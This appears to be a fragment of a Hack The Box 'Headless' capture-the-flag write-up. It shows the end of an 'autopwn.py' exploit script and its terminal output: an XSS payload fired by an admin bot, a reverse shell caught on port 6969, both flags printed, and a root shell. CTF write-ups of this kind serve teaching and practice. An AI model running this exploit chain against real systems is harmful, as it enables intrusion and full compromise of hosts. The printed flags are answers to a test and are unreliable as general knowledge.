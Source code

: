 ```c
print(listener.recvline(timeout=1).decode())

listener.interactive()
```

```c
┌──(kalikali)-[~/ctf/htb/machines/headless]
└─$ python3 autopwn.py --lhost 10.10.14.43 --lport 6969 --rhost 10.129.38.172
[*] Listening on port 6969...
[+] Trying to bind to :: on port 6969: Done
[+] Waiting for connections on :::6969: Got connection from ::ffff:10.129.38.172 on port 35826
Payload delivered. Wait for the admin bot to trigger the XSS...
[+] Reverse shell received!
[*] User flag:  /home/dvir/user.txt:
3858f62230ac3c915f300c664312c63f

[*] Root flag: /root/root.txt:
f5bdbb9eeefac105ebbdd588739f5fd9

[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```
